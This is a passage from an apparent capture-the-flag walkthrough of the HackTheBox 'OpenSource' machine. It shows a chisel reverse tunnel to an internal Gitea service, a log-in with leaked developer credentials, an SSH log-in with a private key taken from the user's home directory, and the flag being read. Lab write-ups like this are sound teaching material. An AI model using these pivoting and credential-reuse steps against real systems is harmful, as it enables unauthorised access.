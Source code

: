 ```bash
./chisel_1.10.0_linux_amd64 server -p 4444 --reverse

2024/08/13 20:41:14 server: Reverse tunnelling enabled
2024/08/13 20:41:14 server: Fingerprint IDk/AtlfBYtDbQML7r3vExlir1cRC34z1xgq7qqrmBc=
2024/08/13 20:41:14 server: Listening on http://0.0.0.0:4444
2024/08/13 20:41:36 server: session#1: tun: proxy#R:3000=>172.17.0.1:3000: Listening
```

The anatomy of this command is the specified port on your LHOST is the port for the server-client model to communicate over, pick a port you intend not to scan or interact with as it will conflict. The remote host formatting is the same as SSH tunnelling, as in local_port:dest_addr:dest_port. 

With all this finally setup I can access the Gitea service from my local machine.

{% include img_link src="/img/opensource/opensource_gitea" alt="Gitea front page" ext="png" trunc=300 %}


### Gitea secrets

Remembering back to the dev branch that leaked the dev01's password we log into this service with `dev01:Soulless_Developer#2022`

![dev01 repos]({{ page.img }}_dev01_home.png)

![dev01 home directory Gitea]({{ page.img }}_home_directory.png)

A copy paste of dev01's home directory. There is an SSH key in here so I get a free session.

```bash
ssh -i id_rsa dev01@10.10.11.164

Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-176-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug 14 02:15:08 UTC 2024

  System load:  0.06              Processes:              238
  Usage of /:   75.6% of 3.48GB   Users logged in:        0
  Memory usage: 24%               IP address for eth0:    10.10.11.164
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


16 updates can be applied immediately.
9 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Mon May 16 13:13:33 2022 from 10.10.14.23
dev01@opensource:~$ cat user.txt
25bff60cb5076f------------------
```
